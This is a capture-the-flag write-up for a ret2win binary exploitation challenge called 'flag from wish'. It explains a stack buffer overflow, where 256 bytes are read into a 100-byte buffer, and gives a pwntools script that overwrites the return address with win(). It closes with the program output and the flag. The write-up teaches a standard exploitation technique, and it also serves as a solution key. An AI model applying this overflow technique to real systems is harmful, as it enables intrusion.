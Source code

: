 # flag from wish

- Published: 12/10/2024 (#10/25 in event)
- Category: Binary exploitation
- Points: 90
- Author: Kolmus

What is on your wish list this year? Be sure to tell Santa in great detail. He might have an early present or two in
store for you!

`nc ctf.csd.lol 4003`

## Attachments

- [main](https://files.vipin.xyz/api/public/dl/8uMpwXAA/advent-of-ctf-csd/flag-from-wish/main)

## Hints

**Hint 1:**

It appears that an elf has mixed up 100 and 0x100. I guess your wishes might not be as limited as you think. Checking
the symbols of the binary (e.g. using nm or a decompiler/disassembler) reveals a 'win' function and its address.

**Hint 2:**

Try setting the return address mentioned in the debug output, sloppily left by(/in) the elf, to the address of the win
function. Be careful about sending the actual bytes, not the address's character representation.

## Write-up

<details>
<summary>Reveal write-up</summary>

![](./decomp.png)

So from initial glances I can tell that there is a `win()` function, this means we need to exploit something to get to
`win()`. Also looking at the decompilation we see it reads in 256 bytes (`0x100`) without bounds checking but `var_78`
is allocated with a smaller size of 100 bytes (`0x64`). This means we can overwrite `var_78` by sending more than 100
bytes.

In CTF's we commonly call this a ret2win (pronounced ret to win) where the goal is to manipulate the value of RIP
(Return Instruction Pointer) by overwriting it, so here is how we need to craft our payload...

- First Part: Padding to reach the saved return address
- Second Part: Overwrite the saved return address with the address of `win()`

But now we need to find the offset for the first parts, Binary ninja has the perfect feature for this!

![](./stack.png)

As you can see, for the `main()` function the stack entry is at `0x78` which is 120. Now that we have our offset, we can
start solving!

Below is the script I used to solve with comments.

```py
from pwn import * # Importing Pwntools, an amazing library for ROP

remote = remote("ctf.csd.lol", 4003) # Specifying our remote

win_addr = 0x4011f6

payload = b"A"*120 # sending the same amount as our offset
payload += p64(win_addr) # p64() "Converts an integer to a 64-bit little-endian representation."
remote.recvuntil("enter your wish") # Waiting until we get the input text saying enter your wish
remote.sendline(payload) # Then sending after it
remote.interactive() # spawning a interactive shell afterwards.
```

Running it we get...

```bash
$ /bin/python3 /home/zarnex/advent_of_ctf/flag_from_wish/solution.py
[+] Opening connection to ctf.csd.lol on port 4003: Done
/home/zarnex/advent_of_ctf/flag_from_wish/solution.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  remote.recvuntil("enter your wish") # Waiting until we get the input text saying enter your wish
[*] Switching to interactive mode
:
hmm ... I'm not sure I can grant that
maybe try again next year.
[DEBUG] returning to address: 0x4011f6
csd{Br0uGH7_t0_YOU_8y_W15H_D0t_CoM}
[*] Got EOF while reading in interactive
$
```

Nice, we got the flag! And looking at the debug line, we see it returned to the `win()` address getting us our flag!

Flag: `csd{Br0uGH7_t0_YOU_8y_W15H_D0t_CoM}`

</details>

Write-up by zarnex
